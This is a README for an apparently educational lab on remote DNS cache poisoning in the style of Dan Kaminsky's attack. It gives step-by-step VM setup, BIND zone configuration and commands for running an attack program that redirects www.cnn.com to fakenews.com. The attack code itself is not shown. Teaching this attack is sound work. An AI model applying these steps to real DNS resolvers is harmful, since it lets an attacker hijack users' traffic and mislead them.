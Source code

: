 ## Remote DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: victim (DNS) client, victim (DNS) server, attacker. All 3 VMs are located in the same network - however, we are not allowed to exploit this fact for the attacks, in other words, the attacker in this lab is not allowed to use wireshark to sniff any packets, or use the *netwox* command to inject forged DNS responses. After all, this lab is trying to demonstrate how attackers from a remote network can still perform DNS cache poisoning.

The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |              Role                     |
|-----|---------------|---------------------------------------|
| VM1 | 172.16.77.128 |   victim DNS client                   |
| VM2 | 172.16.77.129 |   victim DNS server                   |
| VM3 | 172.16.77.130 |   attacker, attacker's DNS server     |

### Special Notes

1. in this lab, you need to copy several files from this github repository into either your victim DNS server VM, or into your attacker VM, thus it is more convenient if you just clone this repository on your victim DNS server VM, and also clone this same repository on your attacker VM.

2. many of the commands in this lab require *sudo*.

### Steps

1. on victim DNS client, configure DNS server information, i.e., let the client know the IP address of the victim DNS server.

1.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-remote-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-remote-dns-configure-dns.png "configure dns")

1.2. run the following command so the above change will take effect:

```console
[05/29/22]seed@VM:~$ sudo resolvconf -u
```

![alt text](lab-remote-dns-resolvconf.png "resolvconf command")

2. setting up the local DNS server.

2.1. add the following into /etc/bind/named.conf (so that it forwards all requests for the attacker32.com domain to the malicious DNS server).

```console
zone "attacker32.com" {
    type forward;
    forwarders {
        172.16.77.130; // replace 172.16.77.130 with your attacker VM's IP address, do not remove the ";".
    };
};
```

**Explanation**: the added lines are saying, for DNS queries regarding this attacker32.com domain, please forward the queries to 172.16.77.130. we do this so that we don't need to actually purchase the domain attacker32.com.

2.2. copy named.conf.options into the /etc/bind/ directory, and also copy named.conf.default-zones into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones /etc/bind/
```

**Explanation**: these two files will overwrite the default files, and with these two files, now the victim DNS server is configured to forward all DNS requests to 1.2.3.4, which does not provide DNS services, and then later on the attacker will impersonate 1.2.3.4 to send forged responses to the victim DNS server.

2.3. restart DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

**Warning**: in your report, don't claim that the attack presented in this lab is not realistic because we need to make these changes on the victim DNS server. Such changes are unnecessary in a real life attacking scenario. The lab is designed in such a way, just to save you - the student, some money - so you don't need to purchase a domain, and to save you - the student, some time, we hardcoded 1.2.3.4 in the configuration file of the victim DNS server and also in the attacking program, otherwise you will need to manually to find out the IP address of authoritative name server for cnn.com.

3. setting up the attacker DNS server.

3.1. copy attacker32.com.zone and cnn.com.zone into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp attacker32.com.zone /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp cnn.com.zone /etc/bind/
```

Remember to replace 172.16.77.130 in attacker32.com.zone with your attacker VM's IP address.

3.2. add the following into /etc/bind/named.conf (so that the above two configuration files will be used):

```console
zone "attacker32.com" {
    type master;
    file "/etc/bind/attacker32.com.zone";
};

zone "cnn.com" {
    type master;
    file "/etc/bind/cnn.com.zone";
};
```

3.3. restart attacker's DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

4. on victim DNS client, send two queries.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

the first *dig* command should show you the legitimate mapping: 

![alt text](lab-remote-dns-before-attack.png "dig cnn, before attack")

whereas the second *dig* command should show you that www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com:

![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker, before attack")

the goal of this attack is, when the victim DNS client runs either of the above two commands, the victim DNS client will get the same result, i.e., www.cnn.com is mapped to the IP address of fakenews.com.

5. right before we start the attack, let's clear the victim DNS server's cache. on the victim DNS server, run:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo rndc flush
```

6. launch the attack: on the attacker's VM, run the attacking program, which is developed based on the famous Dan Kaminsky attack.

```console
[05/29/22]seed@VM:~/.../remotedns$ gcc -o attack attack.c
[05/29/22]seed@VM:~/.../remotedns$ sudo ./attack 172.16.77.130 172.16.77.129
```

**Note**: replace 172.16.77.130 with your attacker VM's IP address, replace 172.16.77.129 with your victim DNS server VM's IP address.

7. the attack may take a couple of minutes. on victim DNS server VM, we can check the cache to verify if the cache is poisoned or not.

```console
[05/29/22]seed@VM:~$ sudo rndc dumpdb -cache
[05/29/22]seed@VM:~$ cat /var/cache/bind/dump.db | grep attacker
ns.attacker32.com.	9992	\-AAAA	;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
cnn.com.		65529	NS	ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1792] [v6 TTL 9992] [v4 success] [v6 nxrrset]
```

as long as we see this *NS* record which associates cnn.com. to ns.attacker32.com., then we know the cache is now poisoned.

8. we can then verify the result from the victim DNS client. on the victim DNS client VM, we just need to send two queries.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

if the attack is successful, then these two commands should now show the same result, which is www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com.

the following screenshots show that the attack is successful:
![alt text](lab-remote-dns-dig-default-p1.png "dig cnn")
![alt text](lab-remote-dns-dig-default-p2.png "dig cnn")
![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker")
![alt text](lab-remote-dns-dig-attacker-p2.png "dig cnn from attacker")

9. you are recommended to remove the line you added on the victim DNS client VM in step 1, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

10. you are also recommended to restore the two files on the victim DNS server VM:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options.orig /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones.orig /etc/bind/
```
